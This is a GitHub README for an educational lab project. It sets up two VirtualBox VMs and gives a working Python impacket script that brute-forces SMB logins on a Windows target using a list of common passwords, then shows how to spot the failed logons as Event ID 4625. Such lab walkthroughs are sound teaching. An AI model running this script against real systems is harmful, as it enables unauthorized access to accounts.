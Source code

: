 # 🚨 SMB Brute Force Script with Python (Internal Network)

This project demonstrates how to launch a brute force attack using the SMB protocol within a virtual internal network. It targets a Windows machine and verifies login failures via Event Viewer logs (Event ID 4625).

---

## 📌 About the Project  
This project simulates a brute force attack using Python and the SMB protocol between two virtual machines on the same NAT network in VirtualBox. It sends multiple login attempts to the Windows VM and verifies failed attempts through Event Viewer.

⚠️ **This is for educational purposes only. Do not run this on unauthorized systems.**

---

## 📡 What is SMB?  
SMB (Server Message Block) is a network protocol mainly used for sharing files, printers, and other resources in a Windows environment. It allows applications to read/write files and request services over a network.

In this project, we exploit the SMB login mechanism by sending multiple password attempts using Python.

---

## ⚙️ Setup Instructions  

### 1. 🖥 Create a NAT Network  
Open VirtualBox > Tools > Network > NAT Networks.

📸  
![image](https://github.com/user-attachments/assets/f06ff4b7-acc7-4ae7-87bb-cca64a2bf616)  
![image](https://github.com/user-attachments/assets/283e0613-4033-460d-807c-f51b528c900f)  

---

### 2. 🖥 Assign NAT Network to VMs  
Assign the newly created NAT network to both Windows and Kali Linux VMs:  
`Settings > Network > Adapter 1 > Attached to: NAT Network.`

📸  
![image](https://github.com/user-attachments/assets/a4262543-4b56-4168-b37b-a564d8010d68)  
![image](https://github.com/user-attachments/assets/7dd978a3-caaa-4396-ba41-f9f6bea7b599)  

---

### 3. 🔍 Find IP Addresses  
- On **Windows**, open Command Prompt and run:  
  ```bash
  ipconfig
- On Kali, run:
  ```bash
  ifconfig

Write down both IPs.
Example:

Windows IP: ```10.0.2.4```

Kali IP: ```10.0.2.5```

---
### 4. 🔐 Enable SMB on Windows
-> Search and open Windows Defender Firewall with Advanced Security.

-> Go to Inbound Rules.

-> Enable the following rules:

     - File and Printer Sharing (SMB-In)

     - File and Printer Sharing (Echo Request - ICMPv4-In)

📸

![image](https://github.com/user-attachments/assets/5255bc56-76c6-4bd4-baa4-2c28708a1c3d)

---
## 🐍 **SMB Brute Force Script**

Create a Python script (`attack.py`) on Kali Linux:

### 🧠 **Python Code**
```python
from impacket.smbconnection import SMBConnection
import time

target_ip = input("Enter target IP address: ")
username = input("Enter username to brute force: ")

passwords = [
    "password123", "123456", "admin", "letmein", "qwerty",
    "welcome", "password1", "abc123", "12345678", "admin123"
]

for i, password in enumerate(passwords, 1):
    try:
        print(f"[{i}] Trying password: {password}")
        conn = SMBConnection(target_ip, target_ip)
        conn.login(username, password)
        print(f"\n[✔] SUCCESS: Password is '{password}'")
        break
    except Exception as e:
        print(f"[✘] Failed login with: {password} - {e}")
        time.sleep(1)
else:
    print("\n[!] All 10 password attempts failed.")
```
---
### 🚀 Running the Attack

On **Kali Linux VM**, open the terminal and run:

```bash
nano attack.py
# Paste the code and save it
python3 attack.py
```
You will be prompted to enter:

* Victim's IP (e.g., 10.0.2.4)

* Username to attack (e.g., Administrator)

📸 Screenshot 

![image](https://github.com/user-attachments/assets/8ef6171d-3846-43b5-bb10-ae28491aed9d)

The script will attempt 10 password logins over SMB.

---
### 📑 Verifying the Attack

On **Windows VM**:

1. Open **Event Viewer** from the search.

2. Navigate to: Windows Logs > Security
   
3. Look for **Event ID: 4625**, which indicates logon failures.

📸 

![image](https://github.com/user-attachments/assets/dcb50530-b8ba-45bc-9cf5-4d567dd37f95)


If the brute force worked, you will see **10 failed logon attempts** matching the passwords used in the script.

---
### ⚠️ Disclaimer

This script is intended for **educational and ethical hacking purposes only**.  
Do **NOT** use this on systems without explicit permission.




